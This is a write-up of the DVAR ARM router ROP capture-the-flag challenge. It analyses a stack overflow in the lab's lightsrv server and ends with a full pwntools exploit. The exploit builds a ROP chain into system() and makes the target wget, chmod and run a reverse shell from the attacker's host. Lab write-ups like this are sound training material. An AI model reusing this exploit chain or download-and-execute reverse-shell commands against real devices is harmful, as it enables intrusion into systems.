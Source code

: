 # DVAR bonus round

http://blog.exploitlab.net/2018/03/dvar-rop-challenge-bonus-round-unlocked.html

## Challenge description:

Part 2 of the DVAR challenge is to exploit a stack overflow in "/usr/bin/lightsrv" the traffic signal lights server. lightsrv is automatically started on boot, and listens on port 8080.

Your task is:

1. Find the buffer overflow vector for lightsrv
2. Crash the program and get pc=0x41414140
3. Work your way through building a proper ROP chain (XN is enabled!)
4. Get a working shell!

Hints:
```bash
exploitlab-DVAR:~# ps
  PID USER  VSZ STAT COMMAND
    :    :    : :    :
  245 root  656 S    /usr/bin/miniweb
  246 root  640 S    /usr/bin/lightsrv <------- [TARGET]
  292 root 1016 S    -ash
  321 root 1012 R    ps
```
```bash
exploitlab-DVAR:~# cat /proc/$(pidof lightsrv)/maps
00010000-00012000 r-xp 00000000 08:00 512   /usr/bin/lightsrv
00022000-00023000 rw-p 00002000 08:00 512   /usr/bin/lightsrv
40000000-40064000 r-xp 00000000 08:00 185   /lib/libc.so
40064000-40065000 r-xp 00000000 00:00 0     [sigpage]
40073000-40074000 r--p 00063000 08:00 185   /lib/libc.so
40074000-40075000 rw-p 00064000 08:00 185   /lib/libc.so
40075000-40077000 rw-p 00000000 00:00 0
40078000-40089000 r-xp 00000000 08:00 2791  /lib/libgcc_s.so.1
40089000-4008a000 rw-p 00009000 08:00 2791  /lib/libgcc_s.so.1
befdf000-bf000000 rw-p 00000000 00:00 0     [stack]
ffff0000-ffff1000 r-xp 00000000 00:00 0     [vectors]
```
If you haven't played with DVAR yet, download it from here:

http://blog.exploitlab.net/2018/01/dvar-damn-vulnerable-arm-router.html

## Lookin at it

Based on the description we can already see that stack isnt executable. We can also see that ASLR is disabled. (always good to double check though)

Lightsrv is a http server, and our input must be a "valid" HTTP GET request:

```
GET / SOME DATA \n\n
```

I transferred the binary to my host machine and took a look at it with radare2. The description (and the exploitlab class) implies that it has a stack overflow.

The DVAR vm also has gdbserver on it, so that makes it nice and easy to debug. Radare2 supports connecting to gdbserver (kinda buggy), but it worked well in this case, so I used that instead of gdb-gef.

One thing that made this challenge slightly annoying was that lightsrv directly wrote to /dev/console instead of stdout.

![fopen /dev/console](https://i.imgur.com/Jza5Exv.png)

First thing i did was look for functions that have large stack arrays.

![sym.handle_single_request](https://i.imgur.com/lR0j0sd.png)

After playing around with debugging and reverse engineering sym.handle_single_request, i found some key things.

 - loops, uses recv to read 0x800 bytes into obj.buf, then appends it to the (0x1000 sized) buffer on the stack.
   - Doesnt limit the number of times it will append to the end of the buffer, so the ol' give it AAAAAAAAAAAAAAAA trick will eventually overwrite saved lr.
   - Also ignored everthing before the slash in "GET /".
 - uses recv (so nulls, spaces, etc are fine)

There is also a very nice little part of code in sym.handle_led_cmd that calls libc's system for us.

![calls system](https://i.imgur.com/jZXGwhk.png)

At this point, the exploit seems very simple compared to the sort of stuff that was normally taught in class.

 - Overflow in sym.handle_single_request, overwrite PC
   - Also put the command we want to execute somewhere in there, so it gets in obj.buf
 - ROP to get the address of obj.buf(0x000221d0) into r0
 - ROP into sym.handle_led_cmd at bl sym.imp.system (0x00010e08)

Since nullies are allowed in our input, we can direclty include low addresses without any tricky xor nonsense.
We can have a very simple rop chain that only uses the lightsrv binary. This means our rop chain will also survive enabling ASLR, as lightsrv is not PIE. This is mostly because I was lazy and didnt want to SCP over the libc from DVAR.

lightsrv contains a very nice gadget for setting r0.

![pop r0](https://i.imgur.com/iQdQAve.png)

R2's gadget search is also nice, and applies the static binary offset.

![pop r0](https://i.imgur.com/91mkS6D.png)

My chain ended up being this cute little thing:

```
0x00010940 #: pop (r0, lr); bx lr
0x000221d0 #: address of the obj.buf (will get placed into r0)
0x00010e28 #: bl sym.imp.system in sym.handle_led_cmd
```

The only thing that is left to get arbitrary command exeuction is get our command string aligned so that it fits right in obj.buf. I basically just did this through trial and error, but a cyclic pattern would've helped a lot here. My input turned out to give me 36 bytes of space to put the command before overwriting saved lr. I probably could've  fiddled with adding spaces in between the "GET" and the "/" to get a different offset, but 36 was enough.

Because the 'nc' command on the DVAR vm is a special busybox version instead of a full netcat, it does not allow for easy reverse shells. DVAR does come with wget, so i just planned to abuse that to download a reverse shell binary and then later run it. I ended up using one of the reverse shells that we had made in the class, hosted it on a http server running on the host vm, and downloaded it to DVAR during the exploit.

This challenge turned out to be surprisingly simple. I had started it assuming I would have to write a full ropchain for a mprotect stack style exploit, with no nulls, newlines, or spaces allowed.

## exploit

```python
#!/usr/bin/python2
#for hosting a http server to DL from
import SimpleHTTPServer
import SocketServer
#and ye olden pwntools
from pwn import *

def httpserv():
	httpd = SocketServer.TCPServer(("", 8000), SimpleHTTPServer.SimpleHTTPRequestHandler)
	print "serving at port", 8000
	httpd.serve_forever()



def execmd(command):
		##ip of the dvar
	s = remote('172.16.99.129', '8080');
	s.send('GET /' + 'A' * 0xffb);
	buf = command + 'A' * (36 - len(command));
	s.send(buf);
	s.send(p32(0x00010940)); #: pop (r0, lr); bx lr
	s.send(p32(0x221d0)); #: address of the temporary buffer
	s.send(p32(0x10e28)); #: bl sym.imp.system
	s.send('d'*4);
	s.send('\n\n');
	s.close();

def sploit():
	sleep(2)
	print('downloading reverse shell')
	execmd('wget http://172.16.99.1:8000/r\0')
	sleep(1)
	print('setting execute')
	execmd('chmod +x ./r\0')
	sleep(1)
	print('starting reverse shell')
	execmd('./r\0')

#need to run the http server at the same time we issue "commands" to the lightsrv
from pwnlib.context import Thread as PwnThread

PwnThread(target=httpserv).start()
PwnThread(target=sploit).start()
l = listen(26985)
l.wait_for_connection()
l.interactive()
```


## fin

Thanks to Saumil Shah for the excelent class and take-home challenge. It was a blast.